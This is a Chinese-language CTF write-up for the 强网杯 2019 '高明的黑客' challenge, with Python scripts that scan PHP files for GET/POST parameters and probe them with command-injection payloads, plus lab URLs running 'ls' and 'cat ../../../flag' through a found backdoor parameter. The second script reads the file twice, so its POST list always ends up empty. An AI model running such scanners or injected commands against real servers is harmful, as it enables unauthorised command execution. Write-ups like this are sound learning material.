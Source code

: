 ```yaml
---
layout: post
title: '[强网杯 2019]高明的黑客'
subtitle: 'python脚本练习'
date: 2021-08-22
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: jekyll 前端开发 设计
---
```


### 解题步骤

> 1.打开靶场

![](https://1024861435.github.io/assets/img/[强网杯 2019]高明的黑客1.png)

下载源码，发现是一堆php文件，开始以为是反序列化，但是没有找到，于是查看别人的wp，说是找get或者post传参

> 2.于是按照要求自己写了一个小脚本

	import re
	import requests
	import os
	
	
	pattern=r"(?<=\_GET\[\').*(?=\'\])"
	path1=r'D:\Leo\phpstudy_pro\WWW\src'
	path=r"http://localhost/src/"
	filelist=os.listdir(path1)
	for flie in filelist:
	    print(flie)
	    f=open(path1+'\\'+flie)
	    data=f.read()
	    f.close()
	    result=re.findall(pattern,data)
	
	    for i in result:
	        reponse=requests.get(path+flie+'?'+i+'='+"echo 'zzzzzzz'")
	        print(path+flie+'?'+i+"echo 'zzzzzzz'")
	        reponse.close()
	
	        if "zzzzzzz" in reponse.text:
	            print(flie)
	            print(i)
	            exit(1)

然而跑了半天，发现时间太久，于是用几个php文件试了一下

![](https://1024861435.github.io/assets/img/[强网杯 2019]高明的黑客2.png)

> 3.于是去尝试了一下

http://0021cf66-1645-4012-9ec2-2cc4acd628da.node4.buuoj.cn:81/xk0SzyKwfzw.php?Efa5BVG=ls%20../../../

![](https://1024861435.github.io/assets/img/[强网杯 2019]高明的黑客3.png)

发现根目录下有flag文件

> 4.cat读flag

http://0021cf66-1645-4012-9ec2-2cc4acd628da.node4.buuoj.cn:81/xk0SzyKwfzw.php?Efa5BVG=cat%20../../../flag

![](https://1024861435.github.io/assets/img/[强网杯 2019]高明的黑客4.png)

### 由于发现脚本太慢去看了别人的wp

发现了多线程和session()一次性请求所有参数的办法以及关闭请求释放内存，于是学习了一下别人的脚本

	import os
	import requests
	import re
	import threading
	import time
	print('开始时间：  '+  time.asctime( time.localtime(time.time()) ))   #只是一个简单的时间函数，看起来更漂亮罢了
	s1=threading.Semaphore(100)                               #这儿设置最大的线程数
	filePath = r"D:/phpstudy_pro/WWW/test1/"
	os.chdir(filePath)                                     #改变当前的路径，这个还是不太懂
	requests.adapters.DEFAULT_RETRIES = 5                       #设置重连次数，防止线程数过高，断开连接
	files = os.listdir(filePath)                                            #得到该目录下所有文件的名称
	session = requests.Session()                                        #得到session()为之后的实现代码回显得取创造条件
	session.keep_alive = False                                # 设置连接活跃状态为False
	def get_content(file):
	    s1.acquire()                                                       #好像与锁什么的相关，但是还是不太懂，多线程开启
	    print('trying   '+file+ '     '+ time.asctime( time.localtime(time.time()) ))  #更好看，同时可以对比不加线程和加线程的时间对比
	    with open(file,encoding='utf-8') as f:                   #打开php文件，提取所有的$_GET和$_POST的参数
	            gets = list(re.findall('\$_GET\[\'(.*?)\'\]', f.read()))
	            posts = list(re.findall('\$_POST\[\'(.*?)\'\]', f.read()))
	    data = {}                                         #所有的$_POST
	    params = {}                                           #所有的$_GET
	    for m in gets:
	        params[m] = "echo 'xxxxxx';"
	    for n in posts:
	        data[n] = "echo 'xxxxxx';"
	    url = 'http://127.0.0.1/test1/'+file
	    req = session.post(url, data=data, params=params)        #一次性请求所有的GET和POST
	    req.close()                                     # 关闭请求  释放内存
	    req.encoding = 'utf-8'
	    content = req.text
	    #print(content)
	    if "xxxxxx" in content:                            #如果发现有可以利用的参数，继续筛选出具体的参数
	        flag = 0
	        for a in gets:
	            req = session.get(url+'?%s='%a+"echo 'xxxxxx';")
	            content = req.text
	            req.close()                                     # 关闭请求  释放内存
	            if "xxxxxx" in content:
	                flag = 1
	                break
	        if flag != 1:
	            for b in posts:
	                req = session.post(url, data={b:"echo 'xxxxxx';"})
	                content = req.text
	                req.close()                                     # 关闭请求  释放内存
	                if "xxxxxx" in content:
	                    break
	        if flag == 1:                                      #flag用来判断参数是GET还是POST，如果是GET，flag==1，则b未定义；如果是POST，flag为0，
	            param = a
	        else:
	            param = b
	        print('找到了利用文件： '+file+"  and 找到了利用的参数：%s" %param)
	        print('结束时间：  ' + time.asctime(time.localtime(time.time())))
	    s1.release()                #对应于之前的多线程打开
	 
	 
	for i in files:                                              #加入多线程
	   t = threading.Thread(target=get_content, args=(i,))
	   t.start()




